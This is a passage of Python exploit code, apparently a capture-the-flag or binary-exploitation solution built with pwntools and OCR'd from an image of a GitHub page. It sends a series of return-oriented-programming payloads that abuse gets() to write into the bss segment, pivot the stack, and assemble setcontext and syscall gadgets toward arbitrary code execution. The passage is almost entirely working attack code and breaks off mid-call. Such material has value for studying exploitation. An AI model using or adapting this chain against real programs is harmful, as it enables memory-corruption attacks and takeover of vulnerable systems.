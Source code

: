 ```python
    rop2 += p64(ret)
    rop2 += gets(bss_start + 0x160)
    rop2 += gets(bss_start + 0x70)
    rop2 += gets(bss_start + 0xC48)
    rop2 += pivot(pop_rax)

    io.sendline(rop2)  # gets exploit trick.
    sleep(0.2)
    io.sendline(b"AAAA")  # dummy input to put libc address on bss
    sleep(0.2)
    io.sendline(b"BBBB")  # dummy input to start the attack
    sleep(0.2)
    rop3 = flat(
        [
            craft_payload(
                libc_ret_addr_bss[0] + 0x3D, pop_rax_rdx_rbx_delta
            ),  # Set RBP and EBX
            add_gadget,
            gets(bss_start + 0x130),
        ]
    )

    io.sendline(rop3)  # craft pop rax; rdx; rbx gadget

    rop4 = flat(
        [
            ret,
            ret,
            ret,
            gets(bss_start + 0x70),
            pivot(bss_start + 0x68),
        ]
    )

    sleep(0.2)

    io.sendline(rop4)

    sleep(0.2)

    io.sendline(
        p64(0) * 2
        + p64(setcontext_delta)
        + p64(pop_rbp)
        + p64(bss_start + 0xC8 + 0x3D)
        + p64(add_gadget)
        + pivot(bss_start + 0x1F0),
    )  # craft setcontext

    sleep(0.2)

    io.sendline(
        p64(0) * 2
        + p64(syscall_delta)
        + p64(pop_rbp)
        + p64(bss_start + 0x058 + 0x3D)
        + p64(add_gadget)
        + pivot(bss_start + 0xD0)
    )  # craft syscall gadget

    sleep(0.2)

    io.sendline(
```